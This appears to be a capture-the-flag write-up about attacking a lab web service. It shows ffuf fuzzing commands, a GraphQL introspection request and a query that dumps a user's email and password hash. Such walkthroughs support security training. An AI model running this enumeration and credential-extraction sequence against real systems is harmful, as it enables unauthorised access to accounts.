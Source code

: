
## MAIN

This application seems to be a simple web service. Upon entering we are greeted with the following response:

```http 
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 81
ETag: W/"51-gr8XZ5dnsfHNaB2KgX/Gxm9yVZU"
Date: Sat, 23 Nov 2024 20:45:12 GMT
Connection: close

{"message":"Hi Shiv, To get access please find the credentials with given query"}
```

From this we deduce the following information:

- There is a user name Shiv
- There are some credentials stored in this service
- There is a query system to access them

So our objective would be to find the place and how these queries are given.
## FIRST STEPS 

My first intuition was to fuzz the web application with the following tools and configurations:

**GET, ffuf, query on get parameter**

```bash
──(kali㉿kali)-[~]
└─$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.10.121:3000/FUZZ -mc all > dump

:: Progress: [220559/220559] :: Job [1/1] :: 313 req/sec :: Duration: [0:11:21] :: Errors: 0 ::

# after some attempts more targeted to web services

┌──(kali㉿kali)-[~]
└─$ ffuf -w /usr/share/seclists/Discovery/Web-Content/graphql.txt -u http://10.10.10.121:3000/FUZZ -mc all > dump

┌──(kali㉿kali)-[~]
└─$ cat dump | grep -E "Status: [0-4]00"
graphql                 [Status: 400, Size: 18, Words: 3, Lines: 1, Duration: 506ms]
graphql/schema.json     [Status: 400, Size: 18, Words: 3, Lines: 1, Duration: 786ms]
graphql/schema.yaml     [Status: 400, Size: 18, Words: 3, Lines: 1, Duration: 786ms]
graphql/schema.xml      [Status: 400, Size: 18, Words: 3, Lines: 1, Duration: 1524ms]
graphql/console         [Status: 400, Size: 18, Words: 3, Lines: 1, Duration: 3416ms]

```

Seems that we can probably query graphql endpoints, after a little bit of testing i got the following: 

```http
GET /graphql/console?query=query%20epic%20%7b%20__schema%20%7b%20types%20%7bname%20fields%20%7bname%7d%7d%20%7d%7d HTTP/1.1
Host: 10.10.10.121:3000
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

{"data":{"__schema":{"types":[{"name":"Query","fields":[{"name":"user"}]},{"name":"User","fields":[{"name":"username"},{"name":"password"}]}, ... lots of data... }
```

So if we ask nicely we get:

```http 
GET /graphql/console?query=query%20epic%20%7b%20user%20%7busername%20password%7d%20%7d HTTP/1.1
Host: 10.10.10.121:3000
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json
Content-Length: 96
Date: Sun, 24 Nov 2024 16:06:46 GMT
Connection: close

{"data":{"user":{"username":"helpme@helpme.com","password":"5d3c93182bb20f07b994a7f617e99cff"}}}
```

Now we have a user and a password to log in. If i recall there was a login in the [[support webpage]].

## OTHER NOTES

- There appears to be no difference in the endpoints of the graphql (all point to the same service)
- There are only queries on this system, no mutations or other things, and the only query is for the users.